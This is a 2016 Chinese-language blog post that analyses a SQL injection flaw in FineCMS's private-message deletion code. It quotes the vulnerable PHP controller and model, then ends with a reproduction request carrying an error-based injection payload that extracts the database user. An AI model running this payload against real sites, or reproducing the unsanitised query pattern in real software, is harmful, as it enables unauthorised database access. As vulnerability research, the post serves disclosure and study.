 ```yaml
---
layout: post
title:  "Finecms SQL注入"
date:   2016-11-14 18:04:52
comments: true
categories: php bug
---
```

位置
{% highlight text %}
\member\controllers\Pm.php
{% endhighlight %}

控制器pm的index方法 ，调用了deletes 方法 ，并通过post方式传入参数ids

{% highlight php %}
public function index() {
if (IS_POST) {
if ($this->input->post('action') == 'read') {
$this->pm_model->set_read($this->uid, $this->input->post('ids'));
exit(dr_json(1, lang('000')));
} else {
$this->pm_model->deletes($this->uid, $this->input->post('ids'));
exit(dr_json(1, lang('000')));
}
}

{% endhighlight %}

跟踪deletes
{% highlight text %}
\member\models\Pm_model.php
{% endhighlight %}

此模型类的函数，调用了delete_by_plid
{% highlight php %}
public function deletes($uid, $plids, $isuser = 0) {
if ($plids) {
foreach($plids as $plid) {
$this->delete_by_plid($uid, $plid, $isuser);
}
}
return 1;
}
{% endhighlight %}

继续看delete_by_plid ，最终进行带入SELECT 查询

{% highlight php %}

public function delete_by_plid($uid, $plid, $isuser = 0) {
if (!$uid || !$plid) {
            return NULL;
        }
if ($isuser) {
$relationship = $this->_relationship($uid, $plid);
$sql = "SELECT * FROM ".$this->db->dbprefix('pm_lists')." WHERE min_max='$relationship'";
} else {
$sql = "SELECT * FROM ".$this->db->dbprefix('pm_lists')." WHERE plid='$plid'";
}
$list = $this->db->query($sql)->row_array();
if ($list) {
$user = explode('_', $list['min_max']);
if (!in_array($uid, $user)) {
                return NULL;
            }
} else {
return NULL;
}
$msg_table = $this->db->dbprefix($this->_pm_tablename($list['plid']));
if ($uid == $list['authorid']) {
$this->db->query("DELETE FROM ".$msg_table." WHERE plid='$list[plid]' AND delstatus=2");
$this->db->query("UPDATE ".$msg_table." SET delstatus=1 WHERE plid='$list[plid]' AND delstatus=0");
} else {
$this->db->query("DELETE FROM ".$msg_table." WHERE plid='$list[plid]' AND delstatus=1");
$this->db->query("UPDATE ".$msg_table." SET delstatus=2 WHERE plid='$list[plid]' AND delstatus=0");
}
$count = $this->db->where('plid', $list['plid'])->count_all_results($msg_table);
if(!$count) {
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_lists')." WHERE plid='$list[plid]'");
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_members')." WHERE plid='$list[plid]'");
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_indexes')." WHERE plid='$list[plid]'");
} else {
$this->db->query("DELETE FROM ".$this->db->dbprefix('pm_members')." WHERE plid='$list[plid]' AND uid=$uid");
}
return 1;
}
{% endhighlight %}

##复现漏洞
{% highlight text %}
http:///member/index.php?c=pm&m=index

action=&ids%5B%5D=1' union select 1 from (select count(*),concat(floor(rand(0)*2),(select user() limit 0,1))a from information_schema.tables group by a)b#

{% endhighlight %}

